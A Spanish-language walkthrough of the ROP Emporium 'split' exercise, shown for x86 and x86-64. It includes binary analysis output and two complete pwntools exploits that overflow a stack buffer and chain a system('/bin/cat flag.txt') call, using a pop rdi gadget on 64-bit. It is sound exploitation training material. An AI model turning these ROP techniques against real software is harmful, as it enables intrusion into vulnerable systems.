 # Split

![2025-04-24-204900_1160x313_scrot](https://github.com/user-attachments/assets/fac22587-b1e4-4358-868c-aa76ad86faa5)

## Indice
- [x86](x86)
- [x86-64](#x86_64)
- [Notas](#Notas)

# x86

## Analisis
```
checksec --file=split32
[*] '/home/kalcast/Descargas/RopEmporium/split32'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```

Sin canario ni PIE, y sabemos que en esta arquitectura el buffer overflow ocurre con un offset de 44 bytes, en la descripcion nos dicen que debemos llamar a la funcion `system` y que la cadena `/bin/cat flag.txt` esta en algun lugar del programa.

Con rabin2 podemos encontrar la llamada a system dentro de usefulFunction:
```
rabin2 -s split32 |grep FUNC
28  0x00000490 0x08048490 LOCAL  FUNC   0        deregister_tm_clones
29  0x000004d0 0x080484d0 LOCAL  FUNC   0        register_tm_clones
30  0x00000510 0x08048510 LOCAL  FUNC   0        __do_global_dtors_aux
33  0x00000540 0x08048540 LOCAL  FUNC   0        frame_dummy
36  0x000005ad 0x080485ad LOCAL  FUNC   95       pwnme
37  0x0000060c 0x0804860c LOCAL  FUNC   25       usefulFunction
46  0x00000690 0x08048690 GLOBAL FUNC   2        __libc_csu_fini
48  0x00000480 0x08048480 GLOBAL FUNC   4        __x86.get_pc_thunk.bx
52  0x00000694 0x08048694 GLOBAL FUNC   0        _fini
61  0x00000630 0x08048630 GLOBAL FUNC   93       __libc_csu_init
65  0x00000470 0x08048470 GLOBAL FUNC   2        _dl_relocate_static_pie
66  0x00000430 0x08048430 GLOBAL FUNC   0        _start
70  0x00000546 0x08048546 GLOBAL FUNC   103      main
72  0x00000374 0x08048374 GLOBAL FUNC   0        _init
1   0x000003b0 0x080483b0 GLOBAL FUNC   16       imp.read
2   0x000003c0 0x080483c0 GLOBAL FUNC   16       imp.printf
3   0x000003d0 0x080483d0 GLOBAL FUNC   16       imp.puts
4   0x000003e0 0x080483e0 GLOBAL FUNC   16       imp.system
6   0x000003f0 0x080483f0 GLOBAL FUNC   16       imp.__libc_start_main
7   0x00000400 0x08048400 GLOBAL FUNC   16       imp.setvbuf
8   0x00000410 0x08048410 GLOBAL FUNC   16       imp.memset
```

```
r2 -A -c "pdf @ sym.usefulFunction" -q split32 2>/dev/null
/ 25: sym.usefulFunction ();
|           0x0804860c      55             push ebp
|           0x0804860d      89e5           mov ebp, esp
|           0x0804860f      83ec08         sub esp, 8
|           0x08048612      83ec0c         sub esp, 0xc
|           0x08048615      680e870408     push str._bin_ls            ; 0x804870e ; "/bin/ls"
|           0x0804861a      e8c1fdffff     call sym.imp.system         ; int system(const char *string)
|           0x0804861f      83c410         add esp, 0x10
|           0x08048622      90             nop
|           0x08048623      c9             leave
\           0x08048624      c3             ret
```

Y la cadena que buscamos:

```
rabin2 -z split32
[Strings]
nth paddr      vaddr      len size section type  string
-------------------------------------------------------
0   0x000006b0 0x080486b0 21  22   .rodata ascii split by ROP Emporium
1   0x000006c6 0x080486c6 4   5    .rodata ascii x86\n
2   0x000006cb 0x080486cb 8   9    .rodata ascii \nExiting
3   0x000006d4 0x080486d4 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x00000703 0x08048703 10  11   .rodata ascii Thank you!
5   0x0000070e 0x0804870e 7   8    .rodata ascii /bin/ls
6   0x00001030 0x0804a030 17  18   .data   ascii /bin/cat flag.txt
```

## Explotacion

Necesitamos llamar a system("/bin/cat flag.txt") dentro de sym.usefulFunction

Ahora bien en x86 el primer parametro que se le pasa a una funcion es el valor en la cima de la pila, lugar donde apunta esp

Nuestra carga util entonces sera `offset + direccion_call_system + direccion_comando_cat`

Exploit:
``` python
from pwn import *

elf = context.binary = ELF("./split32")
io = process("./split32")

system_call = 0x0804861a
command_string = 0x0804a030

payload = flat (
         cyclic(44),
         p32(system_call),        # system("/bin/cat flag.txt")
         p32(command_string)      # "/bin/cat flag.txt"
        )

io.recv()
io.sendline(payload)
io.success(io.recvall().decode())
```

# x86_64

## Analisis

En teoria es lo mismo que en x86, pero las direcciones de la funcion y la cadena cambian.

## Explotacion

La diferencia radica aqui en que el primer parametro de una funcion en x86_64 es el registro o a donde apunta el registro RDI, por lo que necesitamos almacenar "/bin/cat flag.txt" en este registro.

Necesitamos un gadget, un pequeño trozo de codigo al cual podamos saltar, cambiar el valor del registro y volver

Podemos usar el comando /R [registro] en radare2 para encontrar gadgets, o la herramienta ROPgadget, a gusto del consumidor:
```
ROPgadget --binary split|grep rdi
0x0000000000400288 : loope 0x40025a ; sar dword ptr [rdi - 0x5133700c], 0x1d ; retf 0xe99e
0x00000000004007c3 : pop rdi ; ret  # Aqui esta!
0x000000000040028a : sar dword ptr [rdi - 0x5133700c], 0x1d ; retf 0xe99e
```

Con este gadget podemos sobreescribir rdi:
```python
from pwn import *

elf = context.binary = ELF("./split")
io = process("./split")

payload = flat (
         cyclic(40),
         p64(0x004007c3),           # pop rdi; ret
         p64(0x00601060),           # "/bin/cat flag.txt"
         p64(0x0040074b),           # system("/bin/cat flag.txt")
        )

io.recv()
io.sendline(payload)
io.success(io.recvuntil(b"}").decode())
```

# Notas
